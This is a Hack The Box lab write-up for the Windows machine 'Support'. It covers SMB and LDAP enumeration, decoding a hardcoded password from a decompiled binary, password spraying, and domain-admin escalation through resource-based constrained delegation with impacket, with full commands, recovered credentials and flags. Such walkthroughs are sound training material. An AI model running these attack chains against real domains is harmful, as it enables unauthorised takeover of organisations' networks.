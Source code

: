 # 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.SUPPORT.HTB` computer object.

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Users\Administrator\Desktop> type root.txt
ae1605fecb42f57a3d34817e12d24252
```

* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---
